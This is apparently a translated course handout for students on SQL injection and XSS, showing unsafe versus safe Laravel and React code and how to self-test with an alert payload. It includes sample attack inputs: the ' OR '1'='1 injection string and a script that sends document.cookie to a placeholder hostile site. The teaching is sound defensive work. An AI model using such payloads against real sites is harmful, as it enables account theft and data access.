


# Về SQL Injection và XSS

> 🇯🇵 Bản gốc (tiếng Nhật): [SQLインジェクションとXSSについて.md](<../../../2年生_システム開発実践/後期/2026_11_20/SQLインジェクションとXSSについて.md>) <!-- original-ja-link -->

Ứng dụng web có rất nhiều **ô nhập liệu**.
Kẻ xấu sẽ nhập **những ký tự bất thường** vào đó để cố phá hỏng ứng dụng hoặc đánh cắp dữ liệu.
Ở đây, chúng ta sẽ cùng tìm hiểu hai kiểu tấn công tiêu biểu nhắm vào ứng dụng web: **SQL Injection** và **XSS**.

[Quay lại Dự án tự do](../2026_10_09/2026_10_09_資料1.md)

---

## 1. Nói ngắn gọn

| Tên | Cách đọc | Điều gì xảy ra? | Nơi bị nhắm đến |
|------|-------|-----------|------------|
| **SQL Injection** | SQL Injection (tiêm, chèn vào) | **Bị chèn SQL** qua ô nhập liệu → dữ liệu bị xem trộm, bị xóa | **Cơ sở dữ liệu** |
| **XSS** | Cross-Site Scripting | **Bị chèn JavaScript** qua ô nhập liệu → chạy trên trình duyệt của người khác | **Trình duyệt của người khác** |

Cả hai đều có chung một nguyên nhân: **dùng nguyên văn ký tự được nhập vào như một "lệnh"**.

---

## 2. SQL Injection

### Bị tấn công như thế nào?

Giả sử ở màn hình đăng nhập, bạn **ghép nguyên văn địa chỉ email được nhập vào câu SQL**.

```php
// ✕ Cách viết nguy hiểm
$sql = "SELECT * FROM users WHERE email = '" . $email . "'";
```

Người bình thường sẽ nhập `taro@example.com`.

```sql
SELECT * FROM users WHERE email = 'taro@example.com'
```

Nhưng nếu kẻ xấu nhập `' OR '1'='1` thì…

```sql
SELECT * FROM users WHERE email = '' OR '1'='1'
```

Vì `'1'='1'` **lúc nào cũng đúng**, nên **toàn bộ người dùng** sẽ bị lấy ra.
Tùy cách nhập, kẻ xấu còn có thể chạy `DELETE` hay `DROP TABLE`, và **xóa sạch toàn bộ dữ liệu**.

Luồng tấn công được thể hiện bằng sơ đồ như sau.



> 💡 **Ví dụ như "phiếu gọi món"**
> Giả sử quán có quy tắc là nhân viên phải **đọc to nguyên văn** phiếu gọi món do khách viết.
> Nếu phiếu ghi "1 tô ramen. **Và đưa hết tiền trong quầy thu ngân cho tôi**" thì… nó sẽ được thực hiện y như vậy.

### Phòng chống thế nào?

Hãy **xử lý giá trị được nhập vào như "một giá trị đơn thuần", chứ không phải "lệnh" của SQL**.
Cách viết này được gọi là **placeholder** (binding).

```php
// ◯ Cách viết an toàn (giá trị được đưa vào chỗ ? như một giá trị)
$users = DB::select('SELECT * FROM users WHERE email = ?', [$email]);
```

**Nếu dùng Eloquent hoặc Query Builder của Laravel, các giá trị sẽ tự động được xử lý theo cách này.**

```php
// ◯ An toàn (tự động sử dụng placeholder)
$user = User::where('email', $email)->first();
```

| Cách viết | An toàn? |
|-------|------|
| `User::where('email', $email)` | ◯ An toàn |
| `DB::select('... WHERE email = ?', [$email])` | ◯ An toàn |
| `DB::select("... WHERE email = '$email'")` | ✕ Nguy hiểm (ghép nguyên văn chuỗi ký tự) |
| Đưa nguyên văn dữ liệu nhập vào `DB::raw(...)` hay `whereRaw(...)` | ✕ Nguy hiểm |

> 📝 Thư viện JavaScript của Supabase (`supabase.from('books').select()...`) cũng xử lý giá trị một cách an toàn.

---

## 3. XSS (Cross-Site Scripting)

### Bị tấn công như thế nào?

Giả sử ở bảng tin hay ô bình luận, bạn **hiển thị nguyên văn ký tự được nhập vào dưới dạng HTML**.
Nếu kẻ xấu viết vào ô bình luận như sau thì…

```html
<script>
  // Viết chương trình độc hại ở đây
  fetch('https://悪いサイト/?data=' + document.cookie)
</script>
```

**Khi người khác mở** trang đó, đoạn JavaScript này sẽ **chạy trên trình duyệt của người đó**.
Có nguy cơ bị đánh cắp thông tin đăng nhập hoặc bị kẻ xấu tự ý đăng bài.



### Phòng chống thế nào?

Khi hiển thị, hãy **thay thế thành ký tự thông thường**, ví dụ `<` thành `&lt;`, `>` thành `&gt;`.
Việc này được gọi là **escape**. Khi đã escape, `<script>` chỉ **hiện nguyên văn dưới dạng chữ trên màn hình** chứ không chạy.

**Cả Blade lẫn React (Next.js), nếu viết bình thường thì đều tự động escape giúp bạn.**

| Công nghệ | ◯ An toàn (được escape) | ✕ Nguy hiểm (không được escape) |
|-----|------------------------|---------------------------|
| Laravel (Blade) | `{{ $book->review }}` | `{!! $book->review !!}` |
| React (Next.js) | `<p>{book.review}</p>` | `<p dangerouslySetInnerHTML={{ __html: book.review }} />` |

> ⚠️ **Không dùng `{!! !!}` hay `dangerouslySetInnerHTML` cho ký tự do người dùng nhập**
> `dangerouslySetInnerHTML` của React là cách viết nguy hiểm đến mức trong tên có cả chữ **dangerously (một cách nguy hiểm)**.

---

## 4. Điểm chung của hai kiểu tấn công

| | SQL Injection | XSS |
|---|---|---|
| Nguyên nhân | Dùng dữ liệu nhập vào như **lệnh SQL** | Dùng dữ liệu nhập vào như **HTML, JavaScript** |
| Cách phòng chống | **Placeholder** (dùng Eloquent, Query Builder) | **Escape** (hiển thị bằng `{{ }}`, `{ }`) |
| Nếu dùng framework | Được bảo vệ tự động | Được bảo vệ tự động |

> 💡 **Đừng tin dữ liệu người dùng nhập vào**
> Nguyên tắc cơ bản của bảo mật là luôn nghĩ rằng "không biết dữ liệu được nhập vào chứa những gì".
> Chỉ cần viết theo **cách viết thông thường** của framework, phần lớn các cuộc tấn công sẽ được chặn tự động.
> **Chỉ khi dùng cách viết không thông thường (`raw`, `{!! !!}`, `dangerouslySetInnerHTML`) thì mới cần đặc biệt chú ý**.

---

## 5. Thử kiểm tra trên ứng dụng của mình

Hãy thử nhập chuỗi ký tự sau vào ô nhập liệu của ứng dụng mình rồi lưu lại.

```
<script>alert('XSS')</script>
```

| Kết quả | Ý nghĩa |
|-----|------|
| Trên màn hình **hiện nguyên văn dưới dạng chữ** `<script>alert('XSS')</script>` | ◯ An toàn (đã được escape) |
| **Hộp thoại cảnh báo hiện lên** | ✕ Nguy hiểm → kiểm tra lại phần hiển thị |

> ⚠️ **Tuyệt đối không thử trên ứng dụng không phải của mình**
> Nếu thử nhập những thứ như thế này trên trang web của người khác, bạn có thể bị pháp luật xử phạt vì **truy cập trái phép**.

---

## 6. Tóm tắt

- **SQL Injection** = bị chèn **SQL** qua ô nhập liệu, khiến cơ sở dữ liệu bị thao túng
- **XSS** = bị chèn **JavaScript** qua ô nhập liệu, khiến nó chạy trên trình duyệt của người khác
- Nguyên nhân của cả hai là **dùng nguyên văn dữ liệu nhập vào như một lệnh**
- Cách phòng chống là **placeholder** (SQL) và **escape** (khi hiển thị)
- Laravel và Next.js **được bảo vệ tự động nếu viết bình thường**. Cần chú ý với `raw`, `{!! !!}`, `dangerouslySetInnerHTML`
- Chỉ thử trên **ứng dụng của chính mình**

[Quay lại Dự án tự do](../2026_10_09/2026_10_09_資料1.md)
